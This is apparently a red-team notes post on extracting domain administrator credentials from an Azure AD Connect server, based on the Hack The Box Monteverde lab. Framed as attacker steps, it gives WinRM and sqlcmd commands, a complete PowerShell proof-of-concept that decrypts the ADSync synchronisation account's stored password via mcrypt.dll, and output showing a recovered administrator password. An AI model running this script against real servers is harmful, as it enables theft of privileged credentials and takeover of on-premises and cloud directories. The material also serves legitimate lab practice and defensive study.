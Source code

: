 ```yaml
---
layout: post
title: Extracting creds from AD Connect
description: Extracting creds from AD Connect
summary: Extracting creds from AD Connect
tags: [privesc,windows,azure]
minute: 1
---
```

## Overview
Attacker can extract admin credentials from ADSync databases that is used for syncing credential hashes from onpremis AD to Azure AD.

## Enviroment Setup and Requirements
* AD sync must be running on victim machine using "Password Hash Synchronisation (PHS)"
* Low privileged user must have permission on `ADSync` DB
* Attacker must have gained access to that low privileged account via winrm

## Steps
* Login to victim via winrm
* Check if AD Sync is running

```powershell
Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync
```

* Verify access to ADSync DB

```powershell
*Evil-WinRM* PS C:\Users\mhope\Documents> sqlcmd /S localhost /d ADSync /q "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
keyset_id   instance_id                          entropy
----------- ------------------------------------ ------------------------------------
          1 1852B527-DD4F-4ECF-B541-EFCCBFF29E31 194EC2FC-F186-46CF-B44D-071EB61F49CD

(1 rows affected)
*Evil-WinRM* PS C:\Users\mhope\Documents> 
```

* Run this powershell script. This will get the encrypted string from `mms_management_agent` table and decrypt it using `mcrypt.dll`.

```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$sqlserver = "localhost"
$dbname = "ADSync"

$client = New-Object System.Data.SqlClient.SqlConnection
$client.ConnectionString = "Server = $sqlserver; Database = $dbname; Integrated Security = True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

* Run the script

```powershell
*Evil-WinRM* PS C:\Users\mhope\Documents> .\decrypt.ps1
AD Connect Sync Credential Extract POC (@_xpn_)

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
*Evil-WinRM* PS C:\Users\mhope\Documents>
```

## Gotchas
Older versions of AD Connect uses registry but newer ones uses DPAPI. Take this into consideration when using tools to extract the credentials.

To see the version, use this command.

```powershell
Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" | Format-list -Property * -Force
```

## References
* HTB Monteverde
* [Azure AD Connect for Red Teamers - XPN InfoSec Blog](https://blog.xpnsec.com/azuread-connect-for-redteam/)
